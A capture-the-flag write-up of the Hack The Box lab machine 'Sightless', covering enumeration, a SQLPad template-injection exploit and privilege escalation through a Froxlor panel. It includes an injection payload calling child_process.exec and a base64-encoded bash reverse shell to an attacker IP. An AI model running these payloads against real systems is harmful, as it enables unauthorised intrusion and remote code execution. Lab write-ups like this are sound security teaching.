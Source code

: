 ```yaml
---
title: Sightless
date: 2025-02-14
draft: 
author: Flavien
tags:
  - Box
  - CTF
  - HTB
  - Easy
  - Machine
  - Chrome
  - fTP
categories:
  - Box
  - Machine
  - Writeup
  - Easy
description: "A short writeup of the easy linux `HTB` machine: `Sightless`. Really fun machine as the privilege escalation part required inspecting a `Chrome` session."
summary: "A short writeup of the easy linux `HTB` machine: `Sightless`. Really fun machine as the privilege escalation part required inspecting a `Chrome` session."
---
```


## Enumeration

As always we can start with an `nmap` scan:

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/7%Time=66DCA36E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A3,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.129\.170\.105\]\r\n500\x20Invalid\x20command:\x
SF:20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan shows us many ports open including
- 21 running ftp
- 22 running ssh
- 80 running http

We can then explore ports 21 and 80 to see if we discover something interesting
### Port 21
We can try an anonymous login but it doesn't work

```bash
ftp anonymous@10.129.170.105                                                                                          
Connected to 10.129.170.105.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
550 SSL/TLS required on the control channel
ftp: Login failed
```
### Port 80
Going over to `sightless.htb` we see a website and we can try to enumerate it further using `gobuster`and `dirsearch`

```bash
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/namelist.txt  -u http://sightless.htb --append-domain                                                
===============================================================                                                                                              
Gobuster v3.6                                                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                
===============================================================                                                                                              
[+] Url:             http://sightless.htb                                                                                                                    
[+] Method:          GET                                                                                                                                     
[+] Threads:         10                                                                                                                                      
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/namelist.txt                                                                                          
[+] User Agent:      gobuster/3.6                                                                                                                            
[+] Timeout:         10s                                                                                                                                     
[+] Append Domain:   true                                                                                                                                    
===============================================================
Starting gobuster in VHOST enumeration mode                                
===============================================================
===============================================================
Finished
===============================================================
```

Clicking on the buttons at the bottom we discover a new subdomain: `sqlpad.sightless.htb`
--> we can add it to our hosts file and visit it ==> we are met by a database schema where we might be able to run commands 

```bash
dirsearch -u http://sqlpad.sightless.htb                                                                                                                 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest
/pkg_resources.html                                                                                                                                          
  from pkg_resources import DistributionNotFound, VersionConflict                                                                                            
                                                                                                                                                             
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      
                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460                                                                 
                                                                                                                                                             
Output File: /home/flavien/Desktop/HTB CTFs/Machines/Sightless/reports/http_sqlpad.sightless.htb/_24-09-07_21-11-14.txt                                      
                                                                                                                                                             
Target: http://sqlpad.sightless.htb/                                                                                                                         
                                                                                                                                                             
[21:11:14] Starting:                                                                                                                                         
[21:11:31] 404 -   21B  - /api                                              
[21:11:31] 404 -   21B  - /api/                                             
[21:11:31] 404 -   21B  - /api/2/explore/                                    
[21:11:31] 404 -   21B  - /api/_swagger_/                                      
[21:11:31] 404 -   21B  - /api/api                                           
[21:11:31] 404 -   21B  - /api/__swagger__/                                 
[21:11:31] 404 -   21B  - /api/2/issue/createmeta                            
[21:11:31] 404 -   21B  - /api/apidocs/swagger.json 
[21:11:31] 404 -   21B  - /api/application.wadl
[21:11:32] 404 -   21B  - /api/vendor/phpunit/phpunit/phpunit
[21:11:33] 301 -  179B  - /assets  ->  /assets/
[21:11:46] 200 -   10KB - /favicon.ico  
[21:11:56] 200 -  297B  - /manifest.json
                                        
Task Completed
```

We see that we can create an access and a connection on the dashboard to connect to an `sql`database 

![image](Sightless_access.png)

We see 2 users: `john@sightless.htb & admin@sightless.htb`

==> After looking around for a bit we discover [this command injection](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) that we can try 
## Exploitation
We can follow what is said in the blog above to gain a remote shell, first we can create our docker container:

```bash
sudo docker run -p 3000:3000 --name sqlpad -d --env SQLPAD_ADMIN=admin --env SQLPAD_ADMIN_PASSWORD=admin sqlpad/sqlpad:latest
0e721809c73d06b128e9693c6510ca171ea194249b545e0b55bab9eb70d7d125

---------------------------------------------------------------------------------

sudo docker ps                                                                                                               
CONTAINER ID   IMAGE                  COMMAND                CREATED         STATUS        PORTS                                       NAMES
0e721809c73d   sqlpad/sqlpad:latest   "/docker-entrypoint"   2 seconds ago   Up 1 second   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   sqlpad
```

Then we need to connect to it using the dashboard:

![image](Sightless_co.png)

And finally we can verify if we have a working shell using:

```bash
sudo docker exec -it sqlpad cat /tmp/pwn
```

Where we see that we have successfully executed commands on the server --> we can now use a bash payload to try and get a reverse shell

```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash
```

and we can create a new connection with the database field to get a reverse shell

```bash
{{ process.mainModule.require('child_process').exec('echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash') }}
```

and this gives us a reverse shell
## Privilege escalation

Checking out what services are running on the local ports, we discover a `Froxlor`instance running on port 8080 that we can verify using:

```bash
curl 127.0.0.1:8080

<title>Froxlor</title>
```

and we also notice a few other ports

```bash
netstat -ltnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:44727         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:40671         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37883         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can then port forward all of the 40*** ports and inspect them using `Chrome`,

![image](Sightless_chrome.png)

once that done we can inspect the connection and we get the credentials for the `admin.sightless.htb:8080`website

![image](Sightless_admin.png)

And we have the creds: **admin - ForlorfroxAdmin** as well as a url `admin.sightless.htb:8080/admin_logger.php?page=log`

We finally can login to this website with these credentials on `http://127.0.0.1:8080/index.php` and we can then use the php configuration stuff to copy the root flag and then make it readable

![image](Sightless_root.png)


```bash
cp /root/root.txt /tmp/root.txt
chmod 644 /tmp/root.txt
```

and after logging out and in again we can read the flag